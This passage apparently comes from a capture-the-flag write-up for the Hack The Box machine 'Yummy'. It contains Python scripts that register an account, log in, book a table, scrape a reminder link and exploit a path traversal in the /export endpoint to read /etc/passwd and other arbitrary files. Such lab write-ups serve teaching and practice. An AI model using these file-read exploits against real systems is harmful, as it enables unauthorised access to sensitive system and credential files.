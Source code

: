 ```python
        access_token = l.json()['access_token']

        book_table_url = 'http://yummy.htb/book'
        book_table_data = 'name=lazy&email=lazy%40titan.com&phone=1234567890&date=2025-02-01&time=04%3A57&people=1&message=1'

        requests.post(book_table_url, data=book_table_data, headers={'content-type':'application/x-www-form-urlencoded'}, cookies={'X-AUTH-Token':access_token}, allow_redirects=False)

        dashboardurl = 'http://yummy.htb/dashboard'
        d = requests.get(dashboardurl, cookies={'X-AUTH-Token':access_token}, allow_redirects=False)
        reminderpattern = re.findall('book-a-table-btn" href="/reminder/(.*)" role="button', d.text)
        reminder = reminderpattern[0]

        reminderurl = f'http://yummy.htb/reminder/{reminder}'
        requests.get(reminderurl,cookies={'X-AUTH-Token':access_token}, allow_redirects=False)
        file_read = f"http://yummy.htb/export/{line}"
        new_response = requests.get(file_read, cookies={'X-AUTH-Token':access_token}, allow_redirects=False)
        if new_response.status_code == 200:
            print(line)
            print(new_response.content.decode())
            break

```
Within 30ish seconds we get a result and are able to read the /etc/passwd. 

![image](https://i.imgur.com/P9pboVy.png)

We can make another script to make it easier for us to pass files we want to read as arguments. Some experimentation tells us that we just need to traverse back two folders and have the slashes url encoded:  

```python
import requests
import json
import re, sys


registerurl = 'http://yummy.htb/register'
registerdata= {"email":"lazy@titan.com","password":"lazy"}
requests.post(registerurl, json=registerdata)

loginurl = 'http://yummy.htb/login'
l = requests.post(loginurl, json=registerdata)
access_token = l.json()['access_token']

book_table_url = 'http://yummy.htb/book'
book_table_data = 'name=lazy&email=lazy%40titan.com&phone=1234567890&date=2025-02-01&time=04%3A57&people=1&message=1'

requests.post(book_table_url, data=book_table_data, headers={'content-type':'application/x-www-form-urlencoded'}, cookies={'X-AUTH-Token':access_token}, allow_redirects=False)

dashboardurl = 'http://yummy.htb/dashboard'
d = requests.get(dashboardurl, cookies={'X-AUTH-Token':access_token}, allow_redirects=False)
reminderpattern = re.findall('book-a-table-btn" href="/reminder/(.*)" role="button', d.text)
reminder = reminderpattern[0]

reminderurl = f'http://yummy.htb/reminder/{reminder}'
requests.get(reminderurl,cookies={'X-AUTH-Token':access_token}, allow_redirects=False)

```